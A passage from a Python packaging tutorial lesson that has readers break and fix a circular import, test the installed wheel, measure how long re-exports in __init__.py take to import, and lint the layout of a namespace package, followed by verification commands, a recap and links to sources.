12. **The circular-import reproduction and three fixes.** Deliberately introduce a circular import: add `from notesearch.indexer import Indexer` at the *top* of `src/notesearch/tokenizer.py`, then run `uv run python -c "import notesearch.indexer"` and capture the `ImportError: cannot import name 'Indexer' from partially initialized module 'notesearch.indexer'` traceback. Now apply each fix in turn and verify it resolves the cycle: (a) *late binding* — move the offending import to the bottom of `tokenizer.py`, then `uv run python -c "import notesearch.indexer; print('OK')"`; (b) *lazy import* — move the import inside the function that needs `Indexer`, then re-run; (c) *refactor* — extract the shared symbol into a new `notesearch/_shared.py` that both importers depend on, then re-run. Write a one-paragraph note comparing the three on (i) runtime cost, (ii) readability, (iii) resistance to future regressions. The skill: knowing which fix to reach for at 3 a.m. (lazy import, fastest to apply) versus which to land on Monday (refactor, the only durable fix).
13. **The static-install CI simulation with `uv run --no-editable`.** Build the wheel: `uv build` (produces `dist/notesearch-0.1.0-py3-none-any.whl`). Now install the wheel into a fresh venv and run the tests against it: `uv run --with ./dist/notesearch-0.1.0-py3-none-any.whl pytest`. Verify the test run uses the *wheel-installed* `notesearch` (not the editable source) by adding a temporary `print(__file__)` in a test and confirming the path is in `site-packages`, not `src/`. Then break the wheel deliberately (delete `src/notesearch/tokenizer.py`, re-build, re-install) and verify the static-install test fails with `ModuleNotFoundError: No module named 'notesearch.tokenizer'` — proving the static-install catches the missing-file-in-wheel bug that the editable install hides. The skill: building the CI job that turns "tests passed" into "the wheel builds, installs, and tests pass on the installed artefact."
14. **The `__init__.py` import-time-cost benchmark.** Add a `time.perf_counter()` measurement around `import notesearch` in a fresh `uv run python -c` script: `uv run python -c "import time; t=time.perf_counter(); import notesearch; print(f'{(time.perf_counter()-t)*1000:.1f} ms')"`. Record the number. Now add 30 hypothetical re-exports to `notesearch/__init__.py` (e.g. `from notesearch.indexer import Indexer; from notesearch.tokenizer import DefaultTokenizer; from notesearch.exceptions import *; ...`) and re-measure — the import time should grow. Then revert to the lazy `__init__.py` (only `__version__` and `__all__`) and re-measure — the import time should drop back. Write a one-sentence rule: "re-export only what more than 50 % of callers use." The skill: proving that `__init__.py` re-exports have a measurable cold-start cost, which is the foundation of the production rule from the Production Reality section.
15. **The namespace-package lint as a CI script.** In a fresh `acme-` namespace project (create two packages `acme-auth` and `acme-billing` under `packages/`), write a shell script `scripts/check-namespace.sh` that runs `find packages -path '*/acme/__init__.py'` and exits non-zero if any file matches. Run it from `uv run bash scripts/check-namespace.sh` and verify it passes (no `acme/__init__.py` in either package). Now deliberately add an empty `packages/acme-auth/src/acme/__init__.py` and re-run the lint — it should fail with a clear message listing the offending file. Remove the file and verify the lint passes again. The skill: writing the org-wide CI lint that enforces the namespace-package contract — the contract that the Production Reality section's callout depends on.

## Verification

```bash
# From the project root:
mkdir -p src/notesearch tests
# ... create the files ...
uv sync
uv run notesearch add 1 "FastAPI is fast"
uv run notesearch search "fastapi"
uv run python -m notesearch.cli add 2 "Pydantic validates"
uv run python -m notesearch.cli search "pydantic"
cd /tmp && uv run python -c "from notesearch import Indexer; print('OK:', Indexer)"
```

Expected output (modulo exact paths):

```
added doc 1
results: []
added doc 2
results: []
OK: <class 'notesearch.indexer.Indexer'>
```

The `results: []` lines are because each CLI invocation creates a fresh `Indexer` — the index is not persisted across calls. The persistence is added in Lesson 09 (via a fixture-scoped `Indexer`) and in Section 07 (via SQLAlchemy).

To verify the late-binding trick is necessary:

```bash
# Try moving the bottom-of-file import to the top of indexer.py
# Then run `uv sync` and `uv run notesearch add 1 hello`
# If you see "ImportError: cannot import name 'Indexer' from partially initialized
# module 'notesearch.indexer'", the circular import bit you.
```

## Previously Learned Here

- The exception hierarchy from Lesson 06 (`NotesearchError` and subclasses) lives in `src/notesearch/exceptions.py`. The other modules import from it absolutely: `from notesearch.exceptions import IndexBuildError`.
- The `Indexer` context manager from Lesson 04 (with `__enter__`/`__exit__`) is now a class in `src/notesearch/indexer.py`. Tests in Lesson 09 will use it via `with Indexer() as idx:`.
- The `Tokenizer` `Protocol` from Lesson 03 lives in `src/notesearch/tokenizer.py`. The `runtime_checkable` decorator remains.
- The `uv` setup from Lesson 07 produced `pyproject.toml` and `src/notesearch/__init__.py` (empty). This lesson fills the package with real modules.
- The `[project.scripts]` entry point `notesearch = "notesearch.cli:main"` from Lesson 07 is what makes `uv run notesearch` work — Lesson 08's `cli.py` is the module the entry point targets.

## What's Next

In Lesson 09 — [[01-Python-Foundations/pytest-Fundamentals]] — we will populate `tests/test_indexer.py` with real tests: `assert` statements, `pytest.raises` for the exception hierarchy from Lesson 06, fixtures with `function`/`class`/`module`/`session` scope, `conftest.py` for shared fixtures, `parametrize` for matrix tests, marks for skipping and expected failures, `tmp_path` for filesystem isolation, `capsys` for stdout capture, and `pytest-cov` for coverage. Lesson 09 is the last lesson of Phase 1 — by the end you will have a complete, tested, installable Python package.

## Sources

- Python 3.12 import system — https://docs.python.org/3.12/reference/import.html
- Python 3.12 `sys.path` documentation — https://docs.python.org/3.12/library/sys.html#sys.path
- PEP 420 (namespace packages) — https://peps.python.org/pep-0420/
- PEP 328 (absolute and relative imports) — https://peps.python.org/pep-0328/
- PEP 518 (`pyproject.toml`) — https://peps.python.org/pep-0518/
- PEP 517 (build backend interface) — https://peps.python.org/pep-0517/
- `hatchling` documentation — https://hatch.pypa.io/latest/config/build/
- "The src layout" — PyPA packaging guide — https://packaging.python.org/en/latest/discussions/src-layout-vs-flat-layout/

## What We Learned

- The `src/` layout puts the package under `src/`, forcing an install step before tests can import it. This matches production and catches packaging bugs early. `uv init --package` produces this layout automatically.
- A regular package has `__init__.py`; a namespace package (PEP 420) does not. Use regular packages unless you specifically need multi-organisation namespace packages.
- `__init__.py` runs once at first import. It can re-export the public API via `from notesearch.X import Y`.
- Absolute imports (`from notesearch.X import Y`) are preferred over relative (`from .X import Y`) in modern code.
- A circular import (`A imports B imports A`) fails with `ImportError: cannot import name ... from partially initialized module`. Fix: late binding (defer one import to the bottom of the file), lazy import (inside the function), or refactor.
- `python -m package.module` adds cwd to `sys.path[0]`. `python script.py` adds the script's directory. The difference explains most "works one way, fails another" bugs.
- `[build-system]` in `pyproject.toml` declares the build backend (`hatchling` is the modern default). The backend builds wheels from your source tree.
- `notesearch` v8 is now a real installable package with `__init__.py` re-exports, absolute imports, a CLI entry point, and a sensible directory layout.
